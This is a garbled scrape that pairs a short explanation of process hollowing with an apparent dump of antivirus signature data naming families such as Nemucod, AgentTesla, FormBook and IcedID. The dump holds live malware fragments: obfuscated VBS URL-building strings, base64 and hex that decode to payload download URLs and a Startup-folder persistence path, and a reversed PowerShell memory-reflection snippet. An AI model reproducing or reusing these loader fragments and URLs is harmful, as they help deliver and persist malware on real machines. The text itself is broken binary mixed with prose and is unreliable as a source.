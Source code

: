 
>bcrypt.dll 

"Hollowgen" is a term that may refer to malware that uses the "process hollowing" technique. Process hollowing is a method used by malware authors to disguise malicious code by injecting it into a legitimate process that is already running on a system. This allows the malware to bypass security measures that are designed to detect and block new or unknown processes.

In a process hollowing attack, the malware injects its code into a legitimate process, then replaces the legitimate code with its own malicious code. This allows the malware to execute within the context of the legitimate process, making it harder for security software to detect and block the attack. The legitimate process continues to function normally, which helps to further disguise the presence of the malware.

Hollowgen may also refer to a specific piece of malware that uses the process hollowing technique, although I could not find any specific information about a malware variant with this name.



S.e.v.e.r.e...C.a.t.e.g.o.r.y. .I.D. .-. .E.n.u.m.e.r.a.t.i.o.n...I.N.V.A.L.I.D...A.D.W.A.R.E...S.P.Y.W.A.R.E.PA..P.A.S.S.W.O.R.D.S.T.E.A.L.E.R...T.R.O.J.A.N.D.O.W.N.L.O.A.D.E.R...W.O.R.M...,...
.....Ö.Ö.....R.E.M.O.T.E.A.C.C.E.S.S.T.R.O.J.A.N...T.R.O.J.A.N..E.M.A.I.L.F.L.O.O.D.E.R.	.K.E.Y.L.O.G.G.E.R...Ð...Á.=...X...M.O.N.I.T.O.R.I.N.G.S.O.F.T.W.A.R.E...B.R.O.W.S.E.R.M.O.D.I.F.I.E.R...C.O.O.K.I.E.
.B.R.O.W.S.E.R.P.L.U.G.I.N.


\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\








>A sample of the data observed on disk 

&"d"&"o"&"g"&"i"&"r"&"o"&"n"&"w"&"o"&"r"&"k"&"s"&"l"&"l"&"c.c"&"o"&"m/t"&"e"&"m"&"p/I"&"V"&"H"&"D"&"0"&"0"&"G"&"G/","://h"&"w"&"t"&"w.c"&"o"&"m.t"&"w/b"&"a"&"c"&"k"&"e"&"n"&"d/a"&"l"&"e"&"r"&"t"&"i"&"f"&"y"&"j"&"s/b"&"4"&"Q"&"y"&"f"&"c"&"O/","://b"&"e"&"n"&"c"&"e"&"v"&"e"&"n"&"d"&"e"&"g"&"h"&"a"&"z.h"&"u/w"&"p-i"&"n"&"cl"&"u"&"d"&"e"&"s/I"&"s"&"D"&"3"&"4"&"i"&"l/","://k"&"a"&"s"&"p"&"e"&"r"&"v"&"a"&"n"&"d"&"e"&"n"&"b"&"e"&"r"&"g.n"&"e"&"t/2"&"0"&"0"&"9/b"&"l"&"R"&"3"&"G"&"u/","://k"&"a"&"m"&"er"&"a"&"l"&"a"&"r.a"&"z/k"&"o"&"h"&"n"&"e/u"&"p"&"g"&"r"&"a"&"d"&"e/q"&"h"&"a"&"d"&"2"&"i"&"R"&"l"&"M"&"A"&"7"&"b"&"t"&"F/","://l"&"i"&"v"&"r"&"e"&"s.a"&"r"&"t.b"&"r/e"&"rr"&"o"&"s/g"&"f"&"y"&"E"&"w/",".!Nemucod.BKS!MTB.........z-.ê._..D.}]$©.£/¡.ët¯z©.L.¸SCPT:TrojanDownloader:VBS/Nemucod.BKP5.#ATTR_00005d50.SCPT:TrojanDownloader:VBS/Nemucod.BKP6..!Poison.AM!MTB..........¤«Hx...¾Wes
.f¡«8:;Ó<.GÄE7°AntiAdwa.exe222.exe194.146......84.3Progra.......mData\svc.......host.txtExploit:O97M/CVE-2017-11882.ALAW!MTB..... ...!÷gN(...eÄÇÈ4%|Øq·½Ê¼.þ7G..(Ransom:Win64/QuantumLocker.AA!MTB.....!...W«.yxq..QW©.E.aH÷ª.%.Hÿ.(/Þ#.·D$...fÿÀf.D$....·D$....·L$...;Á}....L$...è....D$....·D$...H.L$....¶...¶L$...3Á.·L$...H.T$.....
ë..¯.FormBook.DPUF!MTB.....#...ÏÕ.FxÄ..ÄR þÑì.
Y6¤.ð..	¨ÍÃâI.c.e.C.r.e.a.m.M.a.n.a.g.e.r.a____________________¯.AgentTesla.GZD!MTB.....$...3ËÏ.xË..®..Ú¡àIwòtÏü}¶tÍ.M.1 ß.û.. ç.û.þ.., ..û..8..... ñ.û.þ.
	, ..û..8..... ..û....F.r.`.o.m.`.B.a.s.e.6.4.`.S.t.r.i.`.n.g.¯.AgentTesla.MCFA!MTB.....%...}.×òxM....L.5Ãg.¸..Ïy.fkµ.èËþ..þ..þ..þ...þ..aÒ..þ.. ....Xþ...þ..þ...iþ.þ...þ..:¿ÿÿÿTrojanDownloader:O97M/Obfuse.BBQ!MTB.....&...½EmÜ.ð...UÑÒ·øÇ¹vÆ£i...º.z..= DDD("aHR0cDovL2Fqb2Eub3JnL2hvbWUvZXJyb3IvdG1wL1ZWLnRtcA==")= DDD("QzpcVXNlcnNc") + Application.UserName + DDD("XEFwcERhdGFcUm9hbWluZ1xNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXBcV0hlYWx0aFNjYW5uZXIuZXhl")­!Nemucod.RPLA!MTB.....'....XJá)°..þN.¦ÆT.PAç®.ín..èû¾.(replace("68@74@74@70@3a@2f@2f@31@38@35@2e@32@39@2e@38@2e@31@31@34@2f@72@6f@74@68@63@68@69@6c@64@2f@41@74@74@61@63@6b@30@39@32@37@31@39@37@32@2e@6a@70@67","@",""))......'...m/Þ.)5..ÂÄÊpnC%9K¿.ð$m.ß.
.V$(ypoc::]lahsram.secivresporetni.emitnur.metsys[;)0(@=fub$]][23tni[;g$=rtp$]rtptni[;)llun$(eulavteg.f$=g$;}}e$=f${)'txetnoc*'ekil-eman.e$(fi{)d$nie$(hcaerof;)'citats,cilbupnon'(sdleifteg.c$=d$;}}b$=c${)'slitui*'ekil-eman.b$(fi{)a$nib$(hcaerof;)(sepytteg.ylbmessa.]fer[=a$"f=replace(f,"[^%]","11")..Trojan:Win64/IcedID.MI!MTB.....(......)xQ..²[QäS¥À	¿¥iÁ.æùßæø7.H.D$ H..$f;ít.....H..$:Ût...HÿÀH..$f;Òt..yughoiasdmiaosdnuasdjka....(...1..Ûx...°.5Z^.Ù56j6..ªÜMÌ¹DBCzcHNxRxs410OvjGFExvddhU7RmTAB3W5IGNA.dllqeUMnc.dllEX3AL12lOIIGlvRll5cnNkwm0qYSoUhVAid1¤!Tisandr.CB!MTB.....)...#..nx.....O¼y?(...^.³¼.ôÙ.Ê!You has been infected with SystemBest_pictures1992.exewelcome 7154ndr4fucker_bromas.exehacking en espaÃ±ol.exe..Nanocore.PA1!MTB.....*...æ«.çxS..ïñJC(..!<¥.êsäR..X./tac.fmop.a//:sptth/.t.a.c...f.m.o.p...a././.:.s.p.t.t.h.ReverseText¯.Tnega.SMTK!MTB.TrojanDownloader:PowerShell/Bynoco.SS!ams.....,....¢½9)Ô.."Þ*=.çµ..O_+13ÍM